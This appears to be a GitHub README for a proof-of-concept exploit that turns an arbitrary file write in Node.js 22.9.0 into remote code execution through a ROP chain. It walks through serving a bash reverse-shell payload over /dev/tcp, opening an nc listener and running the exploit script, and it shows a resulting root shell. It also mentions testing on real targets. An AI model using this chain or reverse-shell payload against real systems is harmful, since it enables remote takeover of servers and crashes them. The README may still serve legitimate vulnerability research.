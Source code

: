 # NodeJS File Write to RCE PoC

[Sonar Research: Why Code Security Matters - Even in Hardened Environments](https://www.sonarsource.com/blog/why-code-security-matters-even-in-hardened-environments/)

Stefan Schiller, a researcher at Sonar, discovered a way to abuse an **arbitrary file write** vulnerability on a **read-only filesystem**. By sending fake structures to an open file descriptor which is a pipe to "libuv", they were able jump to an arbitrary location.

Because `node` is often compiled without PIE (Position Independent Executable), the `.text` section is not randomized with ASLR, giving us predictable addresses to jump to. They found one gadget to start a ROP chain, which I expanded to a full chain that sends a reverse shell.

## Running

This exploit was specifically made for the latest version of node as of writing, **version 22.9.0**. Almost any other version will have different addresses and memory, resulting in a **crash**. Using GDB, the exploit script needs to be tweaked in this case.

> [!WARNING]  
> Any exploit attempt will crash the server, also after exiting the reverse shell. Keep this in mind while testing on real targets.

1. Start the vulnerable application inside [`app/`](app/) on port :8000

```sh
docker compose up --build
```

2. Set up an HTTP server with the `sh` payload

```shell
$ cd exploit/
$ nano index.html
bash -c 'bash -i >& /dev/tcp/host.docker.internal/1337 0>&1'
$ python3 -m http.server 1338
```

3. In case of a reverse shell in `http/index.html`, set up a listener

```sh
nc -lnvp 1337
```

4. Trigger the exploit using a ROP chain

```sh
cd exploit/
python3 -m pip install -r requirements.txt
python3 main.py
```

Enjoy your reverse shell in `nc`!

```shell
Listening on 0.0.0.0 1337
Connection received on 192.168.96.1 61726
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@694a4b7f7419:/app# id
uid=0(root) gid=0(root) groups=0(root)
```
